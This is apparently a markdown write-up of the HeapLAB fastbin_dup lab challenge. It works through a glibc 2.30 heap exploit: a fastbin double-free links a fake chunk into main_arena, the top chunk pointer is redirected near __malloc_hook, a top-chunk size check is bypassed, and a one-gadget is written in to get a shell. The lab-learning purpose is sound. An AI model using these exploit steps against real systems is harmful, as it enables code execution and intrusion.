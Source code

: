 ## Attacking fastbin and avoid 0x70 protection
*****************************************
### First Fastbin

1.- Write fake size
```
malloc(24,p64(0x61))
```
![imagen1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen1.png)

2.- Write fake size in main arena
```
malloc(24,'C'*48)
malloc(24,'D'*48)

```
![imagen2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen2.png)

### Second Fastbin for link fake chunk in fastbins list

3.-Fastbin
```
chunk_J=malloc(0X58,'C'*48)
chunk_K=malloc(0x58,'D'*48)
free(chunk_J)
free(chunk_K)
free(chunk_J)
```
![imagen3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen3.png)

4.- So now we can write what we want to link
```
malloc(0x58, p64( libc.sym.main_arena + 0x20 ))
```

![imagen4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen4.png)

5.- Move fake chunk to the fastbins and put it on the head of 0x60 fastbins
```
malloc(0x58,b'L'*8)
malloc(0x58,b'M'*8)
```
![imagen5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen5.png)

6.- Write in main arena...

To write 0x61 in the main arena and match with 0x60 fastbin we allocate 0x48 bytes instead of 0x24 and we'll have the target in 0x60 fastbins and in main arena we will see the fake chunk crafted with size field and foreword pointer.

![imagen6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen6.png)

Requests a chunk of 0x60 size to write in the main arena but before libc will check that the size field of fake chunk is in the range allowed for 0x60 fastbins, thats why we write the 0x61, if we request other 0x60 chunk will give us our fake chunk and we can write in main_arena.

```
malloc(0x58,b'N'*8)
```


![imagen7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen7.png)


7.- Overwrite top chunk pointer with malloc_hook

The offset of top chunk is 48 bytes...

![imagen9.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen9.png)

```
malloc(0x58,b'Y'*48+p64(libc.sym.__malloc_hook -16))
```

![imagen10.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen10.png)

Okey, so if we request a chunk that is not in fastbins malloc will return us a chunk from top chunk.

![imagen11.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen11.png)

8.- Bypass top chunk mitigation

We are using glibc 2.30 for this challange and size version 2.29 top chunk mitigation was added

```
pwndbg> backtrace
pwndbg> f 4
pwndbg> context code
```

![imagen12.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen12.png)

```
pwndbg>p/x av->system_mem
$1 = 0x21000
```

We can go a little further back and take advantage of the alignment that is not checked...

![imagen13.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen13.png)

Great, this size is a size allowed, if request a chunk ...

```
malloc(0x28,b'Y'*19+p64(0xdeadbeef))
malloc(0x28,b'')
```

![imagen14.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen14.png)

9.- One gadget

```
malloc(0x28,b'Y'*19+p64(libc.address + 0xe1fa1))
malloc(0x28,b'')
```

![imagen15.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen15.png)

Is taking 'LLLLLLLLDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD' as parameter and the execution fails, but it is something we control, maybe if we pass other argument

![imagen16.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen16.png)

Let's change the line: 'malloc(0x58,b'L'*8)' to 'malloc(0x58,b'-s\0')'

![imagen17.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen17.png)

and shell!
